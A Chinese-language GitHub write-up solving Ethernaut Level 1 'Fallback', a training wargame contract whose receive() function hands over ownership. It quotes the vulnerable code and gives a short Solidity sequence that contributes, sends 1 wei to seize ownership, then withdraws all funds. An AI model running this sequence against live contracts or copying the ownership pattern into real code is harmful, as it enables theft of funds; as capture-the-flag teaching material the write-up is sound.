


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 1 - Fallback</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 1 - Fallback](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目标是拿到这个合约的控制权，转出所有余额


## 漏洞

转出余额，直接调用 `withdraw` 函数，但是效用此函数受限于 `onlyOwner`，所以根源就是如何获取 `owner` 权限；仔细阅读合约，我们发现`receive` 函数中，可以重新设置 `owner` ； `receive` 函数，当合约在接收eth，且没有任何calldata的情况下，才会调用 `receive` 函数。  

```javascript
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

现在，我们只需弄清楚如何通过 `receive` 函数条件检测 —— `require` 即可。第一条件相当简单，我们只需要发送任意数量的ETH。第二条件要求我们首先调用 `contribute()` ，这样我们的余额就大于0。于是，我们就成为合约的新owner。  

## 解答

1. 首先调用 `contribute` 函数发送一些eth，以满足 `receive()` 函数中 `contributions[msg.sender] > 0` 的条件
2. 直接向合约发送一些eth来触发 `receive()` 函数
3. 提取所有资金

```javascript
        // send the minimum amount to become a contributor
        instance.contribute{value: 0.0001 ether}();

        // send directly to the contract 1 wei, this will allow us to become the new owner
        (bool sent, ) = address(instance).call{value: 1 wei}("");
        require(sent, "Failed to send Ether to the Fallback");
        // now that we are the owner of the contract withdraw all the funds
        instance.withdraw();
```

## 要点

- `receive` 和 `fallback` 函数的用法
- 永远不要在 `fallback/receive` 函数中实现关键逻辑

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>